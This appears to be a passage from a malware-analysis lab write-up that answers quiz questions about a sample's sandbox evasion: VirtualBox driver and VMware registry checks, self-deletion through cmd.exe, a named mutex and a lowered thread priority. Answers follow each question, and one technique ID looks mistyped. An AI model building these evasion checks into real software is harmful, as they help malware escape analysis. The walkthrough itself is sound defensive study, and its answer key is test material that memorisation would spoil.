

The 'CreateFileA' function tries to open **.VBoxMiniRdrDN** to check for the existence of VirtualBox. It uses 'RegOpenKeyExA' to look for **SOFTWAREVMware, Inc.VMware Tools**. These checks are used to see if the malware is running in a VM/sandbox.

R: T14497.001

---

## 4.1.4 Question 4
```
The malware checks for a Virtual Machine by attempting to open a handle to a specific device driver. What is the name of this device driver?
```

As shown in the previous question.

R: \\.\VBoxMiniRdrDN

---

## 4.1.5 Question 5
```
If the first check fails, the malware checks for another virtual machine environment by querying a specific registry key. Which VM does this key check target?
```

He does a registry key check where it exists in environments inside VMware.



R: VMware

---

## 4.1.6 Question 6
```
When the malware detects it is running inside a sandbox, it uses an environment variable to locate a system utility and constructs a command to delete itself. Which system utility executable does it resolve and invoke?
```

After executing a search for a registry key related to VMware, it does the check, 'test eax, eax'. If eax = 0, then it does 'jz short loc_7FF991CF1C52', where we will analyze what gets executed.



At 'loc_7FF991CF1C52' we have a call to a subroutine, where we see the following code:



Here he uses the 'GetEnvironmentVariableA' function, which retrieves the content of the specified variable from the calling process's environment block.

R: C:\Windows\System32\cmd.exe

---

## 4.1.7 Question 7
```
If no Virtual Machine is detected, the malware creates a global synchronization object to ensure only one instance of the malware runs. What is the name of this object (Mutex)?
```

If no use of a VM is detected, the following code block creates a Mutex with the 'CreateMutexA' function named **rggmfm**.



---

## 4.1.8 Question 8
```
The malware spawns a new thread. What is the value used to set the new thread's priority to its lowest possible level?
```

When we look at the following code block of creating a Thread with the 'CreateThread' function, and then setting its priority.

```c
Thread = CreateThread(
             lpThreadAttributes: nullptr,
             dwStackSize: 0,
             lpStartAddress: (LPTHREAD_START_ROUTINE)StartAddress,
             lpParameter: nullptr,
             dwCreationFlags: 0,
             lpThreadId: nullptr);
SetThreadPriority(hThread: Thread, nPriority: 0xFFFFFFF1);
```

R: 0xFFFFFFF1

---

## 4.1.9 Question 9
```
The malware retrieves a directory and appends a suffix to it. What is the full path it constructs in code?
```